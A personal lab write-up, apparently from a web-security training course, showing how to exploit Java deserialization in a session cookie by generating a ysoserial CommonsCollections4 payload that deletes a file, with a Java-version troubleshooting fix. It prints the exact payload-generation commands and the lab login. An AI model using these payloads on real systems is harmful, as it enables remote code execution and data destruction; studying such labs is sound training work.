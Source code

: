 # Lab: Exploiting Java deserialization with Apache Commons

 This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

## Something I encountered during the lab and how I fixed it.

If you get the following error while trying to run [ysoserial](https://github.com/frohoff/ysoserial) and get the following error:

```bash
└─$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt'|base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x614635c2) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x614635c2
	at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
	at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:32)
	at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:26)
	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
```

Try using an earlier version of java (pre 15 I think)

```bash
└─$ sudo update-alternatives --config java             
[sudo] password for nith: 
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
  0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
 *1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/java to provide /usr/bin/java (java) in manual mode
```
# Step 1 View session cookie

I find the standard starting characters of a base64 encoded javascript serialized object `rO0`

![image](https://user-images.githubusercontent.com/83407557/213591181-70fde744-4290-41cd-a155-6dfe77593a5a.png)

base64 decoded hex value:

![image](https://user-images.githubusercontent.com/83407557/213591349-e03fc7a9-4162-4d03-8c3d-1e78ee0de768.png)

# Step 2 making a payload with ysoserial

The command I want to run is `rm /home/carlos/morale.txt` on linux, and from the help menue:

```bash
java -jar ysoserial-all.jar --help
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
```

Then I want to base64 encode the output, and copy it into my clipboard:

```bash
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt'|base64|xclip -selection clipboard
```

# Step 3 capture a request and put the ysoserial payload as the url decoded session cookie

![image](https://user-images.githubusercontent.com/83407557/213592839-d65b1505-c124-4c6e-bedf-4b6b5a326ac8.png)


When the request goes through the file is deleted and the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/213593319-3881be19-a62e-47f0-a48c-bf67f61e6460.png)
